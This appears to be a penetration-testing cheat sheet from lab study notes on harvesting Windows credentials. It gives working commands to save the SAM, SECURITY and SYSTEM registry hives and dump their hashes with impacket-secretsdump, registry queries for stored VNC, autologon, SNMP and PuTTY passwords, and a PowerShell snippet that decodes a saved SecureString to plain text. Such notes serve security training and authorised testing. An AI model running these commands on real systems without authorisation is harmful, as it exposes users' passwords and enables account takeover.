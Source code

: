 1) [[Mimikatz]]
2) Dump Hashes via **Registry**

```cmd
reg.exe save hklm\sam sam
reg.exe save hklm\security security
reg.exe save hklm\system system
```

Copy them to your system and use :-
```sh
# Retrive password hashes from old Windows OS like Windows 2k/NT/XP/Vista
impacket-secretsdump -sam sam -system system LOCAL

# Retrieve from new Windows
impacket-secretsdump -sam sam -security security -system system LOCAL
```


3) Search for Passwords in **Registry**
```powershell
# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologon
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

**Windows Autologon** is a feature that allows a user to configure their Windows operating system to automatically log on to a specific user account, without requiring manual input of the username and password at each startup. However, once this is configured, the username and password are stored in the registry, in clear-text.

AdminAutoLogon - Determines whether Autologon is enabled or disabled. A value of "1" means it is enabled.
DefaultUserName - Holds the value of the username of the account that will automatically log on.
DefaultPassword - Holds the value of the password for the user account specified previously.

```powershell
# Decrypt Automation credentials (PGPractice Nara)
$pw = Get-Content creds.txt | ConvertTo-SecureString
$bstr = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($pw)
$UnsecurePassword = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($bstr)
$UnsecurePassword
```
